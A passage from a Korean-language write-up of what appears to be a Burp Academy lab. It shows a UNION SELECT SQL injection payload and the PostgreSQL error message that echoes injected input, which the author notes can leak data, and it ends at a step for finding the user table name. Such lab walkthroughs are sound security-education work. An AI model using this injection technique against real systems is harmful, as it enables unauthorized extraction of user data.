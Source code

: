 
테스트해보면 4번째 칼럼부터 6번째 칼럼까지는 문자열을 사용할 수 없는 것을 알 수 있다.


```sql
' UNION SELECT NULL,NULL,NULL,'a',NULL,NULL,NULL,NULL --
```

4번째 칼럼부터는 에러 메세지가 다음과 같이 바뀐다. 또한 **문자열 입력값인 'a'가 에러 메세지에 나타나는 것을 알 수 있다.** 이 특성을 이용하면 정보를 빼낼 수 있다. 

```
java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type integer: &quot;a&quot;
  Position: 66
```

![](/images/burp-academy-serial-8-11.png)


## 9. 유저정보를 저장하는 테이블명을 알아내기 
